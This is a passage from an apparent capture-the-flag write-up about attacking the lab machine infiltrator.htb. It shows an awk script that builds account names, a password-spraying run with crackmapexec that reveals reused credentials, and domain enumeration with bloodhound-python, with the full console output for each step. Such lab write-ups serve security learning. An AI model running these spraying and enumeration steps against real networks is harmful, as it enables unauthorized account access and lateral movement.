### 3.2. Password spraying

The `l.clark` account wasn't useful, let's check for password reuse on other accounts

Prepare the sAMAccountName list:

```sh
awk '
  {
    name = $0
    split(name, parts, " ")
    first = tolower(parts[1])
    last = tolower(parts[2])
    print substr(first, 1, 1) "." last
  }
' names.txt > samaccountnames.txt
```

Password spraying using `crackmapexec`

```console
root@kali:~# crackmapexec smb dc01.infiltrator.htb -u samaccountnames.txt -p 'WAT?watismypass!' -d infiltrator.htb
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
```

Received `STATUS_ACCOUNT_RESTRICTION` for users `d.anderson` and `m.harris` → this can mean that the password is valid, but the accounts may not have much access


## 4. Active Directory discovery: Bloodhound

Let's figure out if there are any viable lateral movement pathways

### 4.1. Generating bloodhound packages

```console
root@kali:~# bloodhound-python -d infiltrator.htb -u d.anderson -p 'WAT?watismypass!' -ns 10.10.11.31 -c all  --dns-tcp --zip
INFO: Found AD domain: infiltrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.infiltrator.htb
```